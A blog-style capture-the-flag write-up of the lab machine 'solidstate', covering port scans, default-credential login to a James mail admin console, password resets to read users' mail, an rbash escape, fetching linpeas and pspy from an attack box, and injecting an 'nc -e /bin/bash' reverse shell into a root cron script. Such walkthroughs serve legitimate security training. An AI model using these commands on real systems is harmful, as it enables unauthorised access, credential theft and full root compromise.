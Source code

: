 ```yaml
---
layout: post
title: "solidstate"
date: 2025-09-08 
categories: OSCP Playlist
---
```

# solidstate

# Summary

- rustscan to get all ports
- used nc to interact with port 4555, logged in with root:root
- email admin ability to change other user’ password, read users’ email to get ssh credential
- escape rbash
- linpeas to find world writable script owned by root
- pspy to see running processes executing script periodically
- inject reverse shell in script to get root

# Attack Path

First let’s enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oN nmap/solidstate 10.10.10.51

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.16.7 [10.10.16.7])
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are email services, ssh and nntp;  used primarily for reading and posting articles to **Usenet newsgroups**. Think of it as an early, distributed discussion system (like forums before the web).

There are limited ports here, let’s do a rustscan to see if there are any hidden ports:

```bash
rustscan -a 10.10.10.51 --ulimit 5000

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
25/tcp   open  smtp    syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
110/tcp  open  pop3    syn-ack ttl 63
119/tcp  open  nntp    syn-ack ttl 63
4555/tcp open  rsip    syn-ack ttl 63

sudo nmap -sV -sC -p 22,25,80,110,119,4555 10.10.10.51 -oN nmap/solidstate2

22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.16.7 [10.10.16.7])
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

We also see james-admin remote admin tool. Let’s try and interact with it:

```bash
nc 10.10.10.51 4555 
```

We try a few default credentials:

![image.png]({{ site.baseurl }}/assets/solidstate/image.png)

We are in. Let’s list help:

```bash
HELP

Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Enumerating:

```bash
listusers

Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

From the help menu, it seems like we can set password to any user and also forward email to another user. Let’s check change password for all users until we find useful emails:

```bash
setpassword mailadmin root
setpassword mindy root
setpassword john root
setpassword thomas root
setpassword james root

```

Now we can check on evolution whether this user has any mail:

![image.png]({{ site.baseurl }}/assets/solidstate/image%201.png)

![image.png]({{ site.baseurl }}/assets/solidstate/image%202.png)

Did not find any. Let’s move on to the next one. Logging on to mindy, we get:

![image.png]({{ site.baseurl }}/assets/solidstate/image%203.png)

```bash
mindy:P@55W0rd1!2@
```

We now have ssh login. Let’s also james’ mail, since it’s likely he’s a senior member of the team.

Nothing. Let’s ssh:

```bash
ssh mindy@10.10.10.51
```

Attempting to enumerate, we find ourselves in restricted bash:

```bash
mindy@solidstate:~$ id

-rbash: id: command not found
```

Let’s relogin and see if we can escape rbash:

```bash
ssh mindy@10.10.10.51 -t "bash --noprofile"
```

We have now escaped:

![image.png]({{ site.baseurl }}/assets/solidstate/image%204.png)

We see no hidden files, no sudo privileges, not in a privileged group.

Now let’s download linpeas onto the target and execute it:

```bash
#attack box
python3 -m http.sever 8001

#target
wget http://10.10.16.7:8001/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

#interesting finds:
/home/james/.bash_history
══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml

╔══════════╣ Unexpected in /opt (usually empty)
total 16                                                                                                                                         
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 May 27  2022 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py

```

The most interesting find is /opt/tmp.py that’s owned by root but world writable. 

We also download pspy32s from the official site and see that [tmp.py](http://tmp.py) was being executed periodically by root:

```bash
wget http://10.10.16.7:8001/pspy32s
chmod +x pspy32s
./pspy32s

<SNIP>
2025/09/08 11:39:01 CMD: UID=0     PID=20919  | /bin/sh -c python /opt/tmp.py 
2025/09/08 11:39:01 CMD: UID=0     PID=20920  | /bin/sh -c python /opt/tmp.py 

```

Now let’s edit the script to get a reverse shell:

```bash
#!/usr/bin/env python
import os
import sys
try:
     os.system('nc -e /bin/bash 10.10.16.7 4444')
except:
     sys.exit()

```

Now start a listener:

```bash
nc -lnpv 4444
```

After a while:

![image.png]({{ site.baseurl }}/assets/solidstate/image%205.png)

We now have root.